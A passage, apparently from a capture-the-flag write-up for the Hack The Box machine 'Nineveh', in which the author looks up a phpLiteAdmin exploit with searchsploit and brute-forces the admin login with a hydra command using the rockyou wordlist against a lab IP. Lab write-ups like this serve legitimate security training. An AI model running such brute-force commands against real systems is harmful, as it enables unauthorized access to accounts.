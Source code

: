 searchsploit -x php/webapps/24044.txt  
![alt text](./img/nineveh19.PNG?raw=true)  

Looks simple…. but we don’t have the password…. maybe admin?  
![alt text](./img/nineveh20.PNG?raw=true)  

So let’s try use hydra again  
hydra -l admin -P ~/wordlists/rockyou.txt 10.10.10.43 https-form-post "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -t 64  
![alt text](./img/nineveh21.PNG?raw=true)  
